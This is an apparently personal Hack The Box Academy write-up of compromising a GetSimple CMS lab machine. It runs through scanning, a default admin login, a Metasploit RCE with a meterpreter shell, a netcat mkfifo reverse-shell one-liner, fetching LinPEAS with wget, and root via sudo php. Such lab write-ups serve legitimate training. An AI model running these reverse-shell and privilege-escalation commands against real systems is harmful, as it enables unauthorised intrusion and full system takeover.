 # Recon
## Rustscan - Nmap

First we add the target IP to our /etc/hosts file, then we use [Rustscan](../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Academy/Knowledgecheck]
└─$ rustscan -a ags.htb -- -A     

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to GetSimple! - gettingstarted
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
```
# Enumeration
## HTTP (80)

### Gobuster

We can use [Gobuster](../../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) to start [Enumeration](../../../3%20-%20Tags/Hacking%20Concepts/Enumeration.md) on the target :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Academy/Knowledgecheck]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u  http://ags.htb

/admin                (Status: 301) [Size: 302] [--> http://ags.htb/admin/]
/backups              (Status: 301) [Size: 304] [--> http://ags.htb/backups/]
/data                 (Status: 301) [Size: 301] [--> http://ags.htb/data/]
/plugins              (Status: 301) [Size: 304] [--> http://ags.htb/plugins/]
/robots.txt           (Status: 200) [Size: 32]
/server-status        (Status: 403) [Size: 272]
/sitemap.xml          (Status: 200) [Size: 431]
/theme                (Status: 301) [Size: 302] [--> http://ags.htb/theme/]
```

`/admin` login page:

![Pasted image 20250913182333.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250913182333.png)

credentials are user:`admin` password:`admin`:

![Pasted image 20250913182542.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250913182542.png)
# Exploit
## Metasploit

We can use [Metasploit](../../../3%20-%20Tags/Hacking%20Tools/Metasploit.md) to search for the [Exploit](../../../3%20-%20Tags/Hacking%20Concepts/Exploit.md):

```bash
msf > search GetSimple CMS 3.3.15 

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/getsimplecms_unauth_code_exec

msf > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
```

We set `options` and run it:

```bash
msf exploit(multi/http/getsimplecms_unauth_code_exec) > options   

msf exploit(multi/http/getsimplecms_unauth_code_exec) > set rhosts ags.htb
rhosts => ags.htb
msf exploit(multi/http/getsimplecms_unauth_code_exec) > set lhost 10.10.15.157
lhost => 10.10.15.157
msf exploit(multi/http/getsimplecms_unauth_code_exec) > run
[*] Started reverse TCP handler on 10.10.15.157:4444 
[*] Sending stage (40004 bytes) to 10.129.42.249
[*] Meterpreter session 1 opened (10.10.15.157:4444 -> 10.129.42.249:41654) 

meterpreter > shell
```

Now we have a [Reverse Shell](../../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) and we can read the user flag:

```bash
whoami
www-data
```

Now we can use [Shell Stabilization](../../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md), we transfer the shell with [Netcat](../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) opening a listener then use [Python](../../../3%20-%20Tags/Programming%20Languages/Python.md):

```bash
┌──(mdn0x㉿mdn0xKali)-[~/Scrivania]
└─$ nc -lvnp 1337
listening on [any] 1337 ...

$ ls

$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 1337 >/tmp/f
```

Using this [Payload](../../../3%20-%20Tags/Hacking%20Concepts/Payload.md) on meterpreter session:

```bash
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 1337 >/tmp/f
```

```bash
$ export TERM=xterm                                  
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@gettingstarted:/home$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                   
┌──(mdn0x㉿mdn0xKali)-[~/Scrivania]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               reset
www-data@gettingstarted:/home$ 
```
# Privilege Escalation
## LinPEAS

We can transfer [LinPEAS](../../../3%20-%20Tags/Hacking%20Tools/LinPEAS.md):

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Academy/Knowledgecheck]
└─$ locate linpeas.sh
/usr/share/peass/linpeas/linpeas.sh                                                                                             
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Academy/Knowledgecheck]
└─$ cp /usr/share/peass/linpeas/linpeas.sh .

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Academy/Knowledgecheck]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Download and run it:

```bash
www-data@gettingstarted:/tmp$ wget http://10.10.xx.xxx/linpeas.sh
--2025-09-13 16:55:00--  http://10.10.15.157/linpeas.sh
Connecting to 10.10.xx.xxx:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 131.02K   122KB/s    in 1.1s    

2025-09-13 16:55:03 (122 KB/s) - ‘linpeas.sh’ saved [134168/134168]

www-data@gettingstarted:/tmp$ chmod +x *.sh
www-data@gettingstarted:/tmp$ ./linpeas.sh 

[+] Testing 'sudo -l' without password & /etc/sudoers
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands    
Matching Defaults entries for www-data on gettingstarted:                                               
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php


[+] Backup files?
-rw-r--r-- 1 www-data www-data 3944 Sep  7  2018 /var/www/html/admin/backups.php                                                                                                                                                             
-rw-r--r-- 1 www-data www-data 6018 Sep  7  2018 /var/www/html/admin/backup-edit.php
-rw-r--r-- 1 www-data www-data 678 Sep  7  2018 /var/www/html/admin/template/sidebar-backups.php
-rw-r--r-- 1 root root 2743 Feb  1  2021 /etc/apt/sources.list.curtin.old


+] Looking for root files in folders owned by me
-rwxr-xr-x 1 root root 221 Feb  9  2021 /var/www/html/data/users/admin.xml                                                                                                                                                                   
-rwxr-xr-x 1 root root 221 Feb  9  2021 /var/www/html/data/users/admin.xml
-rwxr-xr-x 1 root root 221 Feb  9  2021 /var/www/html/data/users/admin.xml

```

Read the file:

```
www-data@gettingstarted:/$ cat var/www/html/data/users/admin.xml    
<?xml version="1.0" encoding="UTF-8"?>
<item><USR>admin</USR><NAME/><PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD><EMAIL>admin@gettingstarted.com</EMAIL><HTMLEDITOR>1</HTMLEDITOR><TIMEZONE/><LANG>en_US</LANG></item>
```

This is actually the `admin` password used before to access on admin page.
## GTFObins

We can use `usr/bin/php` as root, let's search on [GTFObins](../../../3%20-%20Tags/Hacking%20Tools/GTFObins.md):

![Pasted image 20250913193228.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250913193228.png)

```bash
www-data@gettingstarted:/$ CMD="/bin/sh"
www-data@gettingstarted:/$ sudo php -r "system('$CMD');"

whoami
root
cat /root/root.txt
```

Pwned !!